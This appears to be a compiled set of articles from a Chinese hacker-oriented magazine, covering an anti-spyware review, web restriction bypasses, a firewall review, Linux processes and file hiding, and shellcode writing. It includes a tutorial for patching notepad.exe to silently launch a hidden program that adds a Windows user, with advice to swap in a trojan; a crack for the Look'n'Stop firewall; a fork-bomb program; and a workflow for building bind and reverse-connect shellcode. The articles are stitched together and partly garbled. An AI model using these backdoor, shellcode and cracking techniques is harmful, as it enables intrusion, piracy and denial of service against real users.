现在的反间谍软件真的是日新月异，不过好像还不常见到微软的反间谍软件哦！继续我们的 Windows 间谍泄漏漏洞帖的时候，大家更多的是把矛头指向 Microsoft，不过现在好了，不出则已，出则一鸣惊人。下面我们就一起来领略一下 Microsoft 的首款反间谍软件——AntiSpyware（后面简称为 MA）测试版的风采吧！

作为操作系统的大牛——微软可能考虑到语言和功能等，与不同的系统平台进行更好的无缝结合而为大家提供了相应的版本，具体大家可以到下面的 URL 查询。

## 一、间谍扫描

其实在软件安装的过程中就提示过是否对系统进行扫描，这里的间谍扫描有两个值得关注的地方：一是扫描的方式和规则，二是计划扫描任务。

如图2所示，在进行扫描规则选择的时候，有快速扫描和系统扫描两种。快速扫描只是对系统内存和注册表进行检查。


运行后会弹出一个包含六位字母序号的对话框，我们输入后就可以继续进行下载了。MA 给人的感觉就是专业。

MA 目前的功能大致可以分为间谍扫描、实时保护和高级工具三部分。下面我就分别来给大家介绍一下吧！

而系统扫描则是增加了对系统文件以及强度设置的扫描。大家可以根据自己的需要来选择扫描方式，合适的方法可以节省大家的时间并得到理想的结果。

如图3所示，计划扫描任务项中大家可以根据自己使用电脑的忙闲时来确定扫描的时间。比如，中午休息时使用电脑就不怎么多，此时就可以分配给系统扫描。计划扫描很容易实现两天一粗扫、一周一次扫，甚至具体到12点哦！现在的网络安全可不怎么乐观呀！


图3

## 二、实时保护

MA 的实时保护分为三大块：网络、系统、……，如图4所示。


图4

MA 在安装的时候会自动检测到系统所需要监测的安全项目并生成上述三个集合。当然大家还可以对这些项目进行控制。如果你不想在浏览网页的时候被网页 js 恶意代码所侵害，就可以在 Internet 安全代理中关闭执行 js 项等等。这里需要和大家说的是，在 MA 刚安装好后，实时保护的禁止事件等中会是空白的！前面也提到了，现在上面的安全代理列表日志是在软件安装的时候检测后自动生成的。不过，如果再安装什么别的（非安全）软件就会有记录了，如图5。


图5

上面是我在安装了 MYIE（一种浏览器）后出现的。看来是在装 MYIE 过程中执行了一些 MA 认为是危险的操作了哦。

## 三、高级工具

MA 为大家提供了一些配套的小工具，其中有个 Browser Hijack Restore，它就是专门禁止前一段时间比较流行的藏在空白页中广告的。在高级工具的 System Explorer 子项中还可以管理系统进程！如图6所示。


图6

遇到自己不能确定进程的时候可以看看右边 Application 详细信息。对于可疑进程、文件的路径、md5 值等，都是我们应该注意的地方。另外还有如 IE Toolbar 清理工具等，都是些比较经典实用的。

到这儿 MA 大致功能基本上就讲完了。其实 MA 的最大特点是 SpyNet AntiSpyware Community！Microsoft 将装了 MA 的用户建立成一个群，这样当群中任何一台机器感染了新的蠕虫后，MA 就会把自己的信息传给 MA 专用服务器，其他的 MA 用户通过自动升级就不会再感染相同的蠕虫了。

好啦，MA 之旅到这儿就要告一段落了。最后希望大家能够喜欢它、用好它，呵呵！

（文章中涉及到的程序 AntiSpyware，已经收录于光盘中）

# 安全第一

各位是否常常遇到这样的情况：浏览某些网页时，鼠标右键突然“失灵”了？见到制作精美的网页想保存下来，却不能保存？等等。这些令人闹心的事时常发生，那我们有没有办法突破限制，自由浏览呢？magic dog 给你答案：Yes！


网页限制常见的类型有：

- 无法保存该页面
- 无法使用鼠标右键，不能查看源代码
- 禁止下载图片
- 网页密码

对付这些烦人的限制，一种最好用的办法就是通过 IE 禁止脚本运行。打开 IE 属性，选择“安全”→“自定义级别”，把 ActiveX 和 Java 脚本都禁用。


图1、2所示是我的 IE 属性，我把 ActiveX 和 Java 脚本都启用了。限制通常由网页代码实现，所以破解方法也离不开网页代码。

先保存网页，再用 WEB 编辑软件（如 FrontPage、Dreamweaver）修改源代码。即使不能直接保存为网页格式，也可另存为 .htm/.html；修改后在 IE 中一般不会再受限制。


## 1. 课前准备操

如果一个网页不能被保存，就通过上面方法禁用脚本并保存，再修改其源代码。常见位置在 `body` 区域，例如包含 `noscript`/`iframe` 的片段。

## 2. 右键屏蔽

可先尝试 `Shift+F10` 调出菜单；若无效，在源码中查找与 `body`、右键事件相关代码（如 `oncontextmenu`、`onmousedown`、`norightclick` 等）并删除。

```javascript
function norightclick(e){
  if (window.Event){
    if (e.which==2 || e.which==3) return false;
  } else {
    if (event.button==2 || event.button==3){
      event.cancelBubble=true;
      event.returnValue=false;
      return false;
    }
  }
}
document.oncontextmenu = new Function("return false");
document.onmousedown = norightclick;
```


## 3. 禁止下载图片

当对图片执行“图片另存为”时弹出“不能下载”提示。找到对应限制代码并删除后即可正常保存。


```html
<A HREF="javascript:void(0)" onMouseOver="alert('对不起,图片不能随便下载!')">
  
</A>
```

```html
SRC="tp2.gif" Align="center" Border="0" width="90" height="50"
```

其实破解此类限制，我们也可以通过源代码查看该图片的真实路径。

## 四、网页密码

朋友的一个 WEB 浏览器竟然要密码，如图6。


不知道有什么好东西，决定破解。把网页 down 下来用记事本打开源代码，很快在“body”区域找到了如下代码：

```html
<SCRIPT LANGUAGE="JavaScript">
function password(){
  var testV=1;
  var pass1=prompt('请输入密码','');
  while (testV < 3){
    if (!pass1)
      history.go(-1);
    if (pass1=='welcome'){
      alert('密码正确!');
      break;
    }
    testV+=1;
    var pass1=prompt('密码错误!请重新输入:');
  }
  if (pass1!='password' && testV==3)
    history.go(-1);
  return ' ';
}
document.write(password());
</SCRIPT>
```

```javascript
if (pass1=='welcome'){
  alert('密码正确!');
  break;
}
```

用中文简单翻译下便是：“如果密码（pass1）是‘welcome’，那提示（alert）‘密码正确’，与此同时也进入了该页面，‘break’的作用是中断……输入密码的机会为3次。”

如果朋友把自己网页的源代码加下密，可能我就没那么容易得逞了，网上类似加密程序随处可得……


大家都愿意看法国国家队踢球。除了法国队队员个人灵巧的技术配合外，法国队的防守能力也同样令人心服口服。同样来自法国的 Look 'n' Stop 个人防火墙也如同他们国家足球队的防守一样……

它不但功能强大，而且占用资源非常小，入侵检测能力较强，可自定义入侵检测规则；设置超简单。看上去虽然和其他防火墙差不多，从我网络跑这些防火墙，就感觉很不错……

## 一、Look'n'Stop 选择简体中文界面的步骤

- 将语言文件 `chinese.lng` 复制到 Look'n'Stop 的安装目录。
- 打开 Look'n'Stop：
  - 点击“Options”页面的“Advanced Options”。
  - 点击“Plugins”。
  - 在“Available_plugins”中勾选 `plugin_language.dll`。
  - 点击“Configure”。
  - 选中“简体中文”，确定。
- 退出并重新打开 Look'n'Stop 即可使用中文。

## 二、破解

- Look'n'Stop 目前最新版是 2.05 p2，文中提供 2.05p1 版本破解方式：
  - 将 `loader.exe` 复制到 Look'n'Stop 安装目录。
  - 退出 Look'n'Stop 程序。
  - 运行 `loader.exe`（仅运行一次）。

## 三、安装

它是一款小巧精干的防火墙，安装文件仅 600 多 K，双击 LooknStop_Setup_205MlEn 进行安装，安装完后需要重启。

## 四、使用简介

## 1. 欢迎界面

显示你目前的连接状态、IP 地址、版本号、官方主页等基本信息。界面总体比较简洁清楚，和其他国外同类防火墙界面差不多，如图1。

# 安全第一


图1

Look 'n' Stop 自带的规则文件为 `EnhancedRuleSet.rls` 和 `StandardRuleSet.rls`，分别为加强型和标准型。Look 'n' Stop 带有两套防火墙规则，默认情况下它只提供基本规则；如果你想改变规则，只需在“互联网过滤”标签下选择“载入” `EnhancedRuleSet.rls` 即可。

当然你也可以自定义规则，在这个页面你可以加载、更换、改编规则。防火墙固然不错，个人安全意识才是最重要的，所以规则你一定要制定好，这样才能保证你的绝对安全，如图4。


图4

## 2. 应用程序过滤

Look 'n' Stop 支持所有访问网络的应用程序，如果有程序要求连接则会显示“允许/禁止”窗口询问，你也可以自定义应用程序，如图2。


图2

## 4. Look 'n' Stop 日志

没什么好多说的，防火墙日志，写着一堆无聊的数据；如果你有兴趣的话，可以看一下，详细到还挺详细的，可以看到我遭受攻击者的 ICMP 攻击，如图5。


图5

## 3. 互联网规则

建立一个可靠的规则集，对于实现一个成功的、安全的防火墙来说是非常关键的一步。因为如果你的防火墙规则集配置错误，好好的防火墙也只是摆设。在安全审计中，经常能看到一个巨资购入的防火墙由于某个规则配置错误而暴露于巨大的危险之中。

与其他防火墙不同的是，Look 'n' Stop 提供了两级水平的过滤。第一级是基于网络水平的，所有的进出数据包都会被监视；第二级是基于应用水平的，所有试图连接 Internet 的应用程序都会被监视。对一些常见的网络攻击，Look 'n' Stop 拦截得非常好，如图3。


图3

> **小知识：什么是 ICMP 攻击？**  
> ICMP 协议对于网络安全具有极其重要的意义，但其特点也常被攻击者利用。例如可以通过超大尺寸 ICMP 数据包发起“Ping of Death”攻击，或通过持续、大量发送 ICMP 包形成“ICMP 风暴”，导致目标主机资源耗尽、系统瘫痪。


## 5. Look 'n' Stop 系统选项

Look 'n' Stop 自带中文插件，所以界面比较友好，自带自动更新选项，有最新的版本马上就能更新。可以对网络接口进行设置，这取决于你使用的是哪个网卡。另外对于日志的保存位置也可以选择。最让人感到舒服的是，对系统启动和注销注册表键值也给出了相应的设置，如图6。

## 5.1 高级选项

有防溢出选项、插件选项、DLL 选项、协议选项、TCP 状态数据报检测等等，扩展功能强大。可以设置密码，对一些攻击 IP 也可以做出一定限制，如图7。


## 5.2 插件页面

显示当前的可用插件的信息，如果你需要其他国家的语言插件，可以到他们的官方主页去下载，如图8。


## 6. 协议驱动

Look 'n' Stop 安装完成后，会自行添加 Look 'n' Stop Driver 的驱动，这样的目的是为了取得较高的优先权和稳定性，如图9。

## 7. 资源占用

下图是开机 12 小时以上的资源占用，资源消耗特别低，才 1196K。比起其他的防火墙来说，已经做得不错了，可谓是小巧玲珑，如图10。


至于其他设置大家自己去摸索吧！另外还有一个当今世界防火墙水平对比的图表，大家可以了解一下，如图11。这也从一个侧面说明了这款来自法国的 Look 'n' Stop 防火墙的实力！

# 五、可能遇到的问题

有些朋友用了 Look 'n' Stop 之后不能上网，解决办法如下：在 Look 'n' Stop 主界面的“互联网过滤规则”处，双击最后一条规则“all other packets”，把以太网类型改成“IP 型”，保存后即可。另外大家如果还有什么疑问的话，可以到 Look 'n' Stop 防火墙世界官方评论网站咨询查看：<http://www.firewallleaktester.com/tests.htm>。

| 防火墙产品 | 多项测试结果 |
|---|---|
| （图11为各防火墙在不同测试项中的通过/失败对比表，单元格以 √/× 标示） | 见图表 |


## Linux安全攻略——僵尸进程

姜超

> 适用人群：对 Linux 操作熟悉者  
> 难度：中  
> 危险系数：★★★

微软系列的东西现在已经非常受人们的喜爱……所以今天我就带大家步入 Linux 最基本的安全领域——“进程”。

大家都知道 Linux 跟 Win2K 一样，都是多任务的操作系统……因为每个进程占用的时间片都很短，从我们使用者的角度来看，就好像多个进程同时运行一样。

# 一、进程概念

当运行任何一个 UNIX/Linux 命令时，Shell 至少会建立一个进程来运行这个命令……进程是动态的，而程序是静态的，并且多个进程（这些进程里除了父进程，其他的就是子进程）可以并发地调用同一个程序。图1显示的就是进程树。


图1 进程层次图

系统中每一个进程都包含一个 `task_struct` 数据结构……下面我来给大家演示一下进程由出生到死亡的一个流程图。

# 二、进程的一生流程图

- 1. **出生**：编程中的一句 `fork()`，父进程创建子进程，子进程继承父进程的资源。
- 2. **生活**：随后随着 `exec()`，新进程开始运行并提供服务。
- 3. **死亡**：进程结束，可正常退出或异常终止。

> （右上栏）进程“死亡”方式说明：可自然死亡（运行到 main 末尾）、可自杀（`exit()` 或 main 中 `return`），并介绍了子进程、僵尸进程与 `wait()` 回收等机制。

进程在运行期间会用到 CPU 等资源……内核通过调度算法决定把 CPU 分配给哪个进程。概念清晰后接着看 Linux 中进程的几种状态。

# 三、Linux 中的进程基本状态

- 1. **执行（R）状态**：CPU 正在执行，进程占用 CPU。
- 2. **就绪（W）状态**：具备运行条件，等待分配 CPU 时间片。
- 3. **停止（S）状态**：进程不能使用 CPU。

通常进程有以上 3 种状态，特殊情况下还会出现“僵尸进程（Zombie）”。接下来再介绍进程管理。

## 三、Linux 中的进程管理

## 1. 启动进程

键入需要运行程序的程序名并执行即可启动一个进程。在 Linux 中每个进程都有 PID，用于系统识别和管理。

调度进程。启动一个进程有两个主要途径：手工启动和调度启动，后者是事先进行设置，根据用户要求自行启动。由用户输入命令，直接启动一个进程便是手工启动进程。但手工启动进程又可以分为很多种，根据启动的进程类型不同、性质不同，实际结果也不一样。

## （1）前台启动

前台启动是手工启动一个进程的最常用方式。一般来说用户输入一个命令（如 `test`），这就在前台启动了一个进程……如果希望观察到进程，通常需要运行耗时程序。

## （2）后台启动

直接从后台手工启动一个进程用得较少一些，除非该进程较耗时且用户不急需结果。对于长时间运行任务，从后台启动是明智选择。

## 2. 进程调度

当需要中断前台进程时，常用 `Ctrl + C`。但后台进程通常需要使用 `kill` 命令。`kill` 的工作原理是向内核发送系统操作信号和目标进程标识，由内核按标识进行处理。

接下来介绍僵尸进程：什么情况下会产生僵尸进程，如何清理僵尸进程，并先熟悉 Linux 进程编程中的关键函数。

```c
fork()：功能 创建一个新的进程
if(fork()<0) 出错；fork()==0 子进程；fork()>0 父进程
wait()：功能 让主进程挂起（收尸）
exec()：功能 执行外部程序
```


好了，我现在让大家看看神秘僵尸进程是什么样子的？下面我用 C 写出父进程建立子进程的代码：

```c
/**** 子进程正常出生和灭亡过程 ****/
#include <sys/types.h>
#include <unistd.h>
main(){
    fork();
    if(fork()>0){
        wait(NULL); /* 收集僵尸进程 */
    }
}
```

大家看完代码后会发现：子进程结束后父进程应及时回收，否则会留下僵尸进程。下面演示“把死去的进程收尸”后会发生什么。

```c
/****** 僵尸进程 zombie.c ******/
#include <sys/types.h>
#include <unistd.h>
main(){
    fork();
    if(fork()>0){
        sleep(30);
        wait(NULL);
    }
}
```

将代码编译并执行：`gcc -o zombie zombie.c`。执行时在命令后加 `&` 使其后台运行，随后可在短时间内观察到 `zombie` 状态。

`&` 代表后台运行，例如 `./zombie &`。约 30 秒内执行 `ps -aux | grep zombie` 可查看 zombie 信息（见图2）。

子进程由父进程创建，但父进程退出后若未正确回收，子进程会进入 `defunct`（僵尸）状态。僵尸进程虽已死亡，但仍占据进程表项，数量过多会影响系统性能，甚至导致系统异常。

```c
/********* 无限创建子进程 *********/
#include <sys/types.h>
#include <unistd.h>
main(){
    for(;;){ /* 制作死循环 */
        fork(); /* 开始创建子进程 */
    }
}
/******************************/
```

`for(;;)` 是死循环。该程序会持续占满 Linux 可用进程数，不断创建子进程，达到上限后可能导致机器死机。文中还比较了普通用户与 root 用户执行该程序时的风险与限制问题。

导致系统拖死，所以我们除了 Root 用户做一些限制外，还要对普通用户进行限制。

**第1步：**编辑 `/etc/security/limits.conf`，加入：`* hard core 0`、`* hard rss 5000`、`* hard nproc 20`。

这里的 `*` 代表除了 Root 的所有用户；`hard core 0` 禁止 core files；`hard rss 5000` 限制内存；`hard nproc 20` 限制进程数。可按系统内存大小合理配置。

**第2步：**编辑 `/etc/pam.d/login`，加入对应配置并保存退出。

现在已经对普通用户限制了进程和内存使用权限，配置后可分别用 Root 和普通用户测试。系统安全不只靠补丁，也依赖合理配置。


**本文测试平台：**Windows XP SP2，VC++ 6.0。

作者说明：在前文思路基础上继续研究隐藏后门方式，下面给出实现方法与测试代码。

```cpp
// 测试程序，作用添加一个用户 test 并修改密码为 windows
// AddUser.cpp
#include <windows.h>

int main(int argc, char* argv[])
{
    system("net user test /add");
    system("net user test windows");
    system("pause");
    return 0;
}
```

```cpp
SW_HIDE;              // 注意 SW_HIDE
system("pause");      // 暂停提示，以便查看程序是否成功运行，实际应用时去掉
return 0;
```

将程序编译为 `AddUser.exe` 后运行，可看到命令执行完成。接着删除 `test` 用户，继续查看下一段代码。


再编译生成 `ExecuteAddUser.exe`，并与 `AddUser.exe` 放在同目录。运行后虽不见 DOS 窗口，但用户已被创建；核心在于窗口隐藏参数 `SW_HIDE` 与调用方式。

```cpp
// ExecuteAddUser.cpp
#include <windows.h>

int main(int argc, char* argv[])
{
    ShellExecute(0, "open", "AddUser.exe", "", "", ...);
}
```

在头文件中可查到 `SW_HIDE` 的定义（如 `#define SW_HIDE 0`），用于隐藏窗口显示。

```cpp
/* ShowWindow() Commands */
#define SW_HIDE 0
#define SW_MAX  11
```

# 黑客编程


图2

修改路径 `AddUser.exe` 的路径吧，别忘了在记事本里修改啊，也不要忘了覆盖系统的记事本，除非别人不用记事本，否则……呵呵。

感谢孟方明给大家带来的精彩思路。不过，可能有些我这样的菜鸟在编辑的时候会有如图3的问题：提示 `Unrecognized command`，这是由于选定的空间不足以存放我们输入的字符串，这个时候按住左键拖动鼠标多选定几行就可以了，如图4。


图3

问题解决了，去掉 `AddUser.cpp` 中的 `system("pause")`，再次编译为 `AddUser.exe`，复制到 D 盘（这里只是测试，实际上可能会被放到 `c:\windows\system32\...`，藏得越深越好啊）。

剩下的事情就很简单了，基本上就是和孟方明的操作一样。修改如下：

原来的记事本入口：

```asm
01006AE0  > 6A 70            PUSH 70
01006AE2    68 88180001      PUSH notepad.01001888
01006AE7    E8 BC010000      CALL notepad.01006CA8
```

修改为：

```asm
01006AE0  > E9 BB120000      JMP notepad.01007DA0
01006AE5    90               NOP
01006AE6    90               NOP
01006AE7    E8 BC010000      CALL notepad.01006CA8
```


图4

在 `01007D74` 添加如下字符：

```asm
01007D74    64 3A 5C 5C 4>    ASCII "d:\\AddUser.exe"
01007D84    6F 70 65 6E 00>   ASCII "open"
```

修改 `01007DA0` 为：

```asm
01007DA0    60               PUSHAD
01007DA1    6A 00            PUSH 0
01007DA3    6A 00            PUSH 0
01007DA5    6A 00            PUSH 0
01007DA7    68 747D0001      PUSH notepad.01007D74
01007DAC    68 847D0001      PUSH notepad.01007D84
01007DB1    6A 00            PUSH 0
01007DB3    90               NOP
01007DB4    90               NOP
01007DB5    90               NOP
01007DB6    E8 ...           CALL SHELL32.ShellExecuteA
01007DBB    61               POPAD
01007DBC    6A 70            PUSH 70
01007DBE    68 88180001      PUSH notepad.01001888
01007DC3    E9 ...           JMP notepad.01006AE5
```

另外实际应用的时候这里的 `AddUser.exe` 应该是你的木马或者 dll 木马，这样才有实际价值。建议大家修改目标系统的防火墙，每次都随系统启动的啊！够狠吧~嘿嘿！

修改完成后保存为 `note_test.exe`，运行，哈哈，没有看到 DOS 窗口吧，看看系统用户吧，有个 `test` 吧，成功 ^o^。现在……

姜超

相信喜欢安全的朋友们都应该对个人隐私的安全性比较重视吧！说到文件的保密，在 Windows 下可谓是五花八门，什么隐藏、加密，甚至加锁，种类可真不少。但是说到不用第 3 方软件来使文件保密，那可有点难度。那么我今天就来讲讲如何不使用第 3 方软件，在 Linux 系统上使文件保密的 3 个方法吧！

虽然 vi 加密还是很安全的，但是考虑到它的缺点，我们就应该好好考虑如何把文件保密性尽可能地提高。这里我教大家第 2 种方法。说起来，这种方法是在老师讲关于颜色的时候歪打正着才出来的结果，后来我和老师一起研究，把这种误操作也做成了一种加密效果，所以我才叫它“另类加密”。好了，看来大家很想知道是什么方法，那么我就来演示一下。

# 一、利用 vi 加密

- 优点：加密后，如果不知道密码，不会看到明文，包括 root 用户也看不了。
- 缺点：
  1. 很明显让别人知道它加密了，会造成让人破解的可能。
  2. 容易让别人把加密的文件破坏掉（包括内容破坏、删除）。

用过 Linux 的朋友们都对 VI 编辑器非常熟悉了吧，vi 里有个命令是给文件加密的。如果对 vi 不熟悉的朋友可以看看，我这里举个简单的例子演示一下：

- 1. 首先我在 /tmp 目录下建立一个 test.txt 的文件；
  2. 回车进到编辑模式，我输入完资料后按一下 ESC，接着输入 `:X`（注意这里是大写的 X，如果是小写就是保存退出的意思了），然后按回车。
  3. 这时会提示让你输入密码，这里要输入 2 次密码，如图 1。
  4. 现在这个文件已经加密了，我们再次打开这个文件的时候，会提示让你输入密码。如果密码输入错误的话，显示出来的东西会是乱码的。

```bash
[root@mail tmp]# vi test.txt
```

```bash
[root@mail tmp]# more test.txt
VimCrypt~01!t2IF <=v...（乱码内容）
[root@mail tmp]#
```

看到了吧，出来的同样是乱码。

## 二、利用 Linux 以颜色显示误操作导致的加密

- 优点：迷惑对方，让对方即使看到文件的存在，但是却不能正确地打开。
- 缺点：在图形界面下能被发现，或者知道原理的朋友也能发现。

我们都知道 Linux 文本模式下输入 `ls` 命令的时候会显示目录下文件以及文件夹，但是我们发现不同的文件有不同的颜色。例如：可执行文件（绿色）、硬件设备文件（黄色）、文本文件（白色）、链接文件（浅蓝色）、目录（蓝色）。其实这些颜色都是可以修改的，因为 Linux 下有个配置文件是专门针对文件颜色做修改的，这个文件就是 `/etc/DIR_COLORS`。我们可以用 vi 编辑这个文件。

```bash
[root@mail etc]# vi /etc/DIR_COLORS
```

进到文件后，把光标移到下面的部分，我们可以看到里面全都是一些文件类型，如图 2。

- 2. 我随便拿一个文件来解释：`.cmd 01;32`（这个文件的 `.cmd` 是说明扩展名为 `.cmd` 的文件，后面的 `01;32` 说明是以绿色来显示，具体数字含义可在 DIR_COLORS 文件注释中查看）。如果我们想自己创建一种类型的文件，我们就可以向里面添加。
  3. 我们要添加一种扩展名为 `jc` 的文件并以红色显示。我们就可以这么添加：`.jc 01;31`，这样我们保存后，退出终端，再进入终端，并且建立一个扩展名为 `jc` 的文件，我们就可以发现它已经是红颜色的了。
  4. 那么大家会问：讲了这么半天了，到底如何给文件加密啊？别着急，我一开始做实验的时候，不小心把后面的 01 写成别的了，当时我是这么写的：`.jc m31`，不仅数字打错变成 m，而且还没加 `;` 号，结果保存退出后，自己建立一个名为 `s.jc` 的文件。
  5. `ls` 看一下，大家知道出现什么结果了吗？结果这个文件竟然显示成 `31ms.jc`。当时我就觉得奇怪，于是编辑这个 `31ms.jc` 文件，当我进到这个文件里时，发现这个根本不是我刚才建立的那个文件，到最后也没有找到。

后来我就想，反正我知道我刚才建立的是 `s.jc` 文件，那么我就 `#vi s.jc`，结果真就进去了，而且就是我刚才建立的文件。那么我就奇怪，为什么这个 `s.jc` 文件没显示出来，出来的却是 `31ms.jc` 呢？

- 6. 后来我才发现原理是我编辑 DIR_COLORS 文件写错造成的。后来说经过研究才发现我们平时用的 `ls` 命令其实后面默认是带 `--color` 参数的。`--color` 这个参数的意思就是当我们用 `ls` 显示东西时以颜色的方式显示出来。其实还有很多有关命令默认后面都自带参数，这是因为系统为了让用户使用方便，默认加了参数。如果大家比较感兴趣的话，请到各用户的家目录里用 `ls -al` 列出所有隐藏文件，并会发现有一个叫 `.bashrc` 的文件，这个文件就可以修改命令参数，甚至可以让一个命令变成另外一个命令，这个就需要大家多动脑研究研究了。
  7. 那么我们如何才能看到真正的文件呢？这里有 2 种方法：  
     1) 可以用 `ls --color=none`，或者用 `# dir`  
     2) 可以用我上面说的修改 `.bashrc` 文件来把默认的 `--color` 后面加上 `none`。

```bash
## .bashrc 片段
## User specific aliases and functions
alias rm='rm -i'
alias cp='cp -i'
alias mv='mv -i'
alias ls='ls --color=none'
```

上面是 `.bashrc` 文件里的内容，其中第 8 行是后来加进去的，目的是以后用 `ls` 显示东西时隐藏该文件。还可以通过编辑 `DIR_COLORS`，给 `*.jc` 结尾文件设置与终端同色，从而让文件不易被看到。

## 三、利用特殊文件名字让别人不能动你的文件

这招看起来简单，但如果不知道如何做，遇到这种情况时你可能无法操作这种文件。

- 1. 首先建立一个文件，但是这个文件名前面一定要以 `-` 开头，例如：

```bash
[root@mail /]# cat > -test.txt
```

- 2. 然后用 `ls` 查看（图 3），会看到 `-test.txt`。
- 3. 直接执行 `rm -test.txt` 会失败（图 4）。
- 4. 在命令后面加 `--`：`rm -- -test.txt` 即可删除（图 6）。

```bash
[root@mail /]# ls
bin conan dev home lib misc opt proc sbin -test.txt usr
boot Desktop etc initrd lost+found mnt php root TEST tmp var
```

```bash
[root@mail /]# rm -test.txt
rm: 无效选项 -- t
请尝试执行 rm --help 来获得更多信息
```

```bash
[root@mail /]# vi -test.txt
E433: 没有 tag 文件
E426: 找不到标签(tag): est.txt
```

```bash
[root@mail /]# rm -- -test.txt
rm: 是否删除一般文件 '-test.txt'?
```

哈哈，看到了吧，现在终于可以删除了。依次类推，在 `vi` 或其他操作命令后加 `--` 也可以。

# 总结

以上方法可以对文件进行“加密/隐藏”式处理，让不熟悉的人难以操作。作者强调并非绝对安全，只是分享思路；只要有思路就可能被破解，并留下联系邮箱讨论 Linux 安全。

## 菜鸟也玩 shellcode

作者承接此前关于 exploit 的文章，这次介绍“菜鸟级” shellcode 编写思路，强调不必从零写起，可以先学习和改造高手写好的 shellcode。

## 一、寻找主角

先准备“主菜”——shellcode。文中提到在 metasploit.com 找到几个示例，先看下面这个。

```asm
[BITS 32]
global _start
```

```asm
_start:
  LCaller:
    call LLoadFunctions
  LDataSegment:
    dd 'CMD'
    dd 0x79c679e7 ; closesocket
    dd 0x498649e5 ; accept
    dd 0xe92eada4 ; listen
    dd 0xc77d1aa4 ; bind
    dd 0xadf509d9 ; WSASocketA
    dd 0x3bfcedcb ; WSAStartup
  LBind:
    push edi
    push edi
    push dword 0x11220002 ; port 8721
    mov esi, esp
```

```asm
push byte 0x10        ; length
push esi
push ebx
call [ebp - 24]
```

我只列出了部分关键代码，完整代码详见光盘。这个是汇编写的 bind shell，它可以绑定一个 cmd shell 到任意本地端口。我们要做的就是把上面的代码写成 shellcode 形式。

首先找到这句：`push dword 0x11220002`。port 8721 这个就是绑定的端口。比如改为 1234 端口，先把 1234 转成十六进制 04d2，再按低位在前、高位在后的顺序排列为 d204，替换后变成：`push dword 0xd2040002`。

OK！代码改好了，下面需要把这段代码编译成二进制文件。这里用 nasm，把代码存为 `bindshell.asm`，复制到 nasm 解压目录的 bin 子目录，在 cmd 中执行：`nasm -f bin -o birdshell.bin bindshell.asm`，即可得到二进制文件。

用 ultraedit 打开 `bindshell.bin` 文件（图 2），看到十六进制数据后复制出来，改写为 `\x..` 形式。手工处理较麻烦，因此写一个简单 perl 程序来转换（也可用 Python 等语言）。

```perl
#!/usr/bin/perl
## powered by ...
my $filename = shift;
open(FILE, "<$filename");
open(RES, ">result.txt");
while(<FILE>) {
  s/\r//g;
  s/\n//g;
  s/\s*$//g;
  s/^\s+//g;
  print $_;
  print RES "\\x$_...";
}
close FILE;
close RES;
```

别小看这些代码哦，它可以省去手工之苦。将代码保存为 `hex.pl`，在 ultraedit 中按 `Ctrl+A` 全选后用十六进制复制，粘贴到新建的 `hex.txt` 文件中保存（放在 bin 目录下）。

接着在 cmd 中输入：`hex.pl hex.txt`，回车确认后如图 4。此时同目录下生成新文件 `result.txt`，打开后就是需要的 shellcode。

这就是完整的 shellcode。接下来验证其可用性：打开 C 编译器（文中为 lccwin32），新建工程和 `cpp1.c` 文件，把上面的 shellcode 放入字符串数组中。

```c
void main(void)
{
    int (*pfunc)();
    pfunc = (int (*)())shellcode;
    (int)(*pfunc)();
}
```

代码很简单。编译后运行，程序即可成功执行；再 telnet 本地 1234 端口即可验证效果（后续见图 5、图 6）。

HOHO，得到 shell 了，说明我们的 shellcode 确实没有错误。到这里我们已经有了自己的 shellcode，把它替换到 exploit 的 shellcode，有没有种成就感呢？

有了绑定端口的 shellcode 了，也许大家还想要反向连接的？其实道理和上面的是一样的，因此我就稍稍给大家介绍一下好了，有兴趣的读者可以自己尝试修改（毛主席说过：自己动手，丰衣足食）。反向连接的 shellcode 关键代码如下：

```asm
LConnect:
    push 0xF700A8C0 ; host: 192.168.0.247
    push 0x11220002 ; port: 8721
    mov ecx, esp
    push byte 0x10
    push ecx
    push ebx
    call [ebp+16]
    test eax, eax
    jne short LFinished
```

我们只需要修改：

```asm
push 0xF700A8C0 ; host: 192.168.0.247
push 0x11220002 ; port: 8721
```

两句的反向连接 IP 和端口就行了。端口的修改方法同上，至于 IP，你需要在 exploit 中动态地修改 shellcode。关于如何动态修改，读者可以参考一些具有反向连接功能的 exploit。IP 在 shellcode 中是这样表示的，比如你要把上面的 IP 改为 222.144.133.122，你需要把每组数据先转换为 16 进制数并按顺序压栈，最后替换 `push 0xF700A8C0` 中的值即可。这里再提供一段 perl 写的程序用来转换 IP，这可就方便多了哦：

```perl
#!/usr/bin/perl
# IP转换程序
## 用法: convert.pl ip
my $ip = shift;
chomp($ip);
my @list = split(/\./, $ip);
my $constr = '0x';
my $temp;
my $i;
for ($i=3; $i>=0; $i--) {
    if ($list[$i] == 0) {
        $temp = '00';
    } else {
        $temp = sprintf('%x', $list[$i]);
    }
    $constr .= $temp;
}
print $constr;
```

这个程序也不是很完善，如果你给的 IP 中有一部分是小于 16 的，比如说 192.168.0.1 中的最后一个 1，那么程序打印出的转换结果是 `0x100a8c0`，少了一位。因此你需要自己手动把 1 变成 01 补足一位即可。

反向连接后门就介绍到这里，至于如何在 C 语言中实现 exploit 的编写，大家可以参考前人的 C 版 exploit。我个人还是比较喜欢用 perl 写 exploit，方便、简单、实惠。:)

## 二、工具篇

也许有的朋友觉得上面的方法太过烦琐，想要一个更简单的方法。OK！这个任务就交给我了，从网上 down 了 shellcode 自动生成工具，试了一下还不错，拿来奉献给大家。首先我们先自己写个 shell 程序，程序很简单如下：

```c
#include <windows.h>
int main()
{
    WinExec("cmd", 5);
    return 0;
}
```

很简单的代码吧，这里简单说一下 WinExec 这个 API 函数，函数声明如下：

```c
UINT WinExec(
    LPCSTR lpCmdLine,
    UINT uCmdShow
);
```

第一个参数是你要执行的命令，第二个参数是窗口显示模式，这个可以参考 ShowWindow 函数。程序中第二个参数是 5，也就是 SW_SHOW，如图 7。上面的程序编译运行后就会打开一个 cmd 窗口。下面我们要把这个程序转换成为汇编码，用 VC 打开上面的程序，按 F10 键进行调试，在调试面板中选择 Disassembly，如图 8。

```asm
#define SW_SHOW 5
#define SW_RESTORE 9
#define SW_SHOWDEFAULT 10
#define SW_SHOWMAXIMIZED 3
```

```asm
push 5          ; SW_SHOW参数
lea eax,[ebp-4] ; CMD字符串的首地址
push eax        ; eax入栈
```

接着可以调用 WinExec 函数了：

```asm
mov eax,0x77e69c1d ; 刚才比对发现的WinExec函数地址
call eax           ; 调用函数
```

